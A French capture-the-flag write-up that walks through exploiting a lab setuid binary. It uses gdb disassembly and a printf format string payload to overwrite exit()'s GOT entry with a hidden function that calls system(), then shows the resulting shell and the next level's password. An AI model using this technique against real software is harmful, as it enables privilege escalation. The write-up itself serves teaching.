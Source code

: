 # Level5

> login:password -> *`level5:0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a`*
```
:~$ su level5
Password:0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
---

```
:~$ pwd
/home/user/level5
```

```
:~$ ls -la
total 17
dr-xr-x---+ 1 level5 level5   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level5 level5  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level5 level5 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level6 users  5385 Mar  6  2016 level5
-rw-r--r--+ 1 level5 level5   65 Sep 23  2015 .pass
-rw-r--r--  1 level5 level5  675 Apr  3  2012 .profile
```

Le Home contient un binaire `level5` :

```
:~$ ./level5
(input) test
test

:~$ ./level5 test
(input) test
test
```

Avec ou sans paramètre, le binaire attends un input

```
:~$ gdb level5
...

(gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:	    push   %ebp
   0x08048505 <+1>:	    mov    %esp,%ebp
   0x08048507 <+3>:	    and    $0xfffffff0,%esp
   0x0804850a <+6>:	    call   0x80484c2 <n>
   0x0804850f <+11>:	leave  
   0x08048510 <+12>:	ret    
End of assembler dump.

(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   %ebp
   0x080484c3 <+1>:	mov    %esp,%ebp
   0x080484c5 <+3>:	sub    $0x218,%esp
   0x080484cb <+9>:	mov    0x8049848,%eax
   0x080484d0 <+14>:	mov    %eax,0x8(%esp)
   0x080484d4 <+18>:	movl   $0x200,0x4(%esp)
   0x080484dc <+26>:	lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:	mov    %eax,(%esp)
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:	mov    %eax,(%esp)
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	movl   $0x1,(%esp)
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.
```

Le main va appeller une fonction `n()` (+6) et a l'intérieur de celle-ci on retrouve à nouveau `printf()` (+49) mais pas fonction `system()` ou autre moyen d'acceder au stdin, donc on va voir si on trouve d'autres fonctions utiles


```
(gdb) info functions
All defined functions:

Non-debugging symbols:
(...)
0x08048380  printf@plt
(...)
0x08048390  _exit@plt
(...)
0x080483a0  fgets@plt
(...)
0x080483b0  system@plt
(...)
0x080483d0  exit@plt
(...)
0x080484a4  o
0x080484c2  n
0x08048504  main
(...)
```

Finalement on retrouve bien l'utilisation d'une fonction `system()`, mais egalement l'utilisation d'une fonction `o()` qui semble inexploitée

```
(gdb) disas o
Dump of assembler code for function o:
   (...)
   0x080484aa <+6>:	    movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	movl   $0x1,(%esp)
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
```

On determine du coup que la fonction `o()` pourra etre utilise pour atteindre le stdin, mais pour ce faire on va de nouveau exploiter `printf()`

```
:~$ python -c 'print " %x" * 4' | ./level5
 200 b7fd1ac0 b7ff37d0 25207825

:~$ python -c 'print "aaaa" + " %x" * 4' | ./level5
aaaa 200 b7fd1ac0 b7ff37d0 61616161
```

On decouvre que notre buffer est en 4e position. Apres la fonction `printf()` on trouve un appel de la fonction `exit()`, on va donc faire en sorte de remplacer l'adresse de cette derniere, par l'appel de la fonction `o()`

```
(gdb) info function exit
All defined functions:

Non-debugging symbols:
(...)
0x080483d0  exit@plt

(gdb) x/i 0x080483d0
   0x80483d0 <exit@plt>:	jmp    *0x8049838

(gdb) info function o
All defined functions:

Non-debugging symbols:
(...)
0x080484a4  o
(...)
```

On obtient ainsi les adresses desirees dans le GOT*:
- `exit()` : **0x8049838**
- `o()` : **0x080484a4**


À present on a toutes les informations neccessaires, il est tant de preparer notre exploit.

On traduit adresse de la fonction `exit()` dans le GOT: "\x38\x98\x04\x08" (ce qui nous donne **4 bytes**)

Puis on prend la valeur décimal pour atteindre `o()`: 134513828

> 134513828 - 4 = **134513824 bytes**

```
:~$ python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/level5

:~$ cat /tmp/level5 - | ./level5
(...)
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```



_Informations supplementaires_:
>*Global Offset Table, or GOT, is a section of a computer program's (executables and shared libraries) memory used to enable computer program code compiled as an ELF file to run correctly, independent of the memory address where the program's code or data is loaded at runtime.